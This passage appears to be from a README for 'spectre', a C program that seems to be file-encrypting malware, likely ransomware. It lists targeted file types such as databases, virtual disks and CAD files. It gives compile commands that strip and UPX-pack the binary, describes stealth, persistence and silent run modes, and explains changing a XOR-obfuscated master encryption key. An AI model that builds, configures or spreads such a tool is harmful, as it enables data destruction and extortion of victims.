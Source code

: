     Databases: SQL, MDB, SQLite, DBF

    Development: Source code, configuration files

    Virtualization: VMDK, VDI, VHD, OVA

    CAD/Design: DWG, STL, OBJ, FBX

    And many more...

🛠️ Installation & Compilation
Prerequisites

    GCC/Clang compiler

    Standard C libraries

    pthread library (Linux/macOS)

Linux/macOS Compilation
bash

gcc -o spectre spectre.c -lpthread -ldl -O3 -s -fomit-frame-pointer
strip -s spectre
upx --best spectre

Windows Compilation (MinGW)
bash

gcc -o spectre.exe spectre.c -lws2_32 -lpsapi -lpthread -O3 -s
strip spectre.exe
upx --best spectre.exe

🎮 Usage
Basic Execution
bash

./spectre

Stealth Mode (Recommended)
bash

./spectre --daemon

Persistent Mode
bash

./spectre --persist

Silent Mode
bash

./spectre --silent

🔧 Configuration
Master Encryption Key

The default encryption key is obfuscated within the binary. To modify:

    Locate the enc_master_key XOR-encoded array

    Encode your desired key using the same XOR algorithm
